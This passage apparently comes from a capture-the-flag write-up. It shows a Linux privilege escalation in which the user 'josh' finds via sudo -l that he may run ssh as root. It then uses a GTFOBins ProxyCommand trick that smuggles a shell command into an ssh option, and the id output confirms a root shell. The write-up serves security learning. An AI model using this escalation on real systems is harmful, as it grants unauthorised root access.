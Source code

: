 Checking if `josh` can run any applications as root:

```bash
$ sudo -l 
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

Using [GTFO-Bins - SSH Sudo](https://gtfobins.github.io/gtfobins/ssh/#sudo) we get a root shell:

```bash
$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# id
uid=0(root) gid=0(root) groups=0(root)
```